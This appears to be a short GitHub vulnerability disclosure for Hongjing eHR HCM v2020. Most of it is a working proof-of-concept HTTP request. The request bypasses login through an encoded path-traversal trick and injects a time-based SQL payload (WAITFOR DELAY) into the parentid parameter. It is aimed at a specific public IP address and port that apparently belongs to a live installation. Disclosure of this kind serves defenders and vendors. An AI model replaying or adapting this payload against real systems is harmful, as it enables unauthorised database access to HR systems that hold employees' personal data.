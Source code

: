 Hongjing-ehr-hcm has sql injection vulnerability

verison:v2020

1.The login interface is as shown below
![image](https://github.com/willchen0011/cve/assets/13689053/e44109b3-19da-430f-a304-f741e4e5f212)

2.When accessing the POC without logging in, the page will be delayed for 5 seconds.
```
GET /w_selfservice/oauthservlet/%2e./.%2e/general/inform/org/loadhistroyorgtree?isroot=child&parentid=1%27%3BWAITFOR+DELAY+%270%3A0%3A5%27--&kind=2&catalog_id=11&issuperuser=111&manageprive=111&action=111&target= HTTP/1.1
Host: 27.128.160.119:8181
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Upgrade-Insecure-Requests: 1
```

![image](https://github.com/willchen0011/cve/assets/13689053/566a68f2-10be-446b-849b-9dbe68fb99d6)
